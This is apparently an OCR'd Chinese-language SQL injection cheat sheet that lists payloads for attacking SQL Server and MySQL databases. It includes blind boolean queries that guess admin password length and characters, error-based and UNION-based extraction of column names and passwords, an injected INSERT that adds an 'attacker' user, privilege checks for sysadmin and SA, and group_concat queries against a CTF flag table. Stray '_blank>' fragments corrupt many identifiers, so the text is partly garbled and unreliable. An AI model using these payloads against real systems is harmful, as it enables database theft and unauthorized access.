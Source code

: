 ```
and 1=(select count(*) from admin where len(password)>12) 错误 长度是12 
and 1=(select count(*) from admin where len(password)=12) 正确

6.猜解字符 
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位 
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位 
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 
and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) -- 
这个查询语句可以猜解中文的用户和_blank>密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.

group by users.id having 1=1-- 
group by users.id, users.username, users.password, users.privs having 1=1-- 
; insert into users values( 666, attacker, foobar, 0xffff )--

UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id)- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id,login_blank>_name)- 
UNION SELECT TOP 1 login_blank>_name FROM logintable- 
UNION SELECT TOP 1 password FROM logintable where login_blank>_name=Rahul--

看_blank>服务器打的补丁=出错了打了SP4补丁 
and 1=(select @@VERSION)--

看_blank>数据库连接账号的权限，返回正常，证明是_blank>服务器角色sysadmin权限。 
and 1=(SELECT IS_blank>_SRVROLEMEMBER(sysadmin))--

判断连接_blank>数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA） 
and sa=(SELECT System_blank>_user)-- 
and user_blank>_name()=dbo-- 
and 0<>(select user_blank>_name()--


$input -1' union select 1,1,(select group_concat(schema_name) from information_schema.schemata)'查询所有的数据库名字。

$input -1' union select 1,1,(select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining')'查询ctftraining这个库中所有表的名字。

$input -1' union select 1,1,(select group_concat(column_name) from information_schema.columns where table_name = "flag")'查询flag表中所有的列的名字。

$input id=-1' union select 1,1,(select group_concat(flag) from ctftraining.flag)'


连接字符串常用函数
CONCAT(str1,str2,...)
CONCAT_WS(SEPARATOR,str1,str2,...)--concat with separator
GROUP_CONCAT()，用来连接查询出来的很多行，上面两个都是连接列。
```
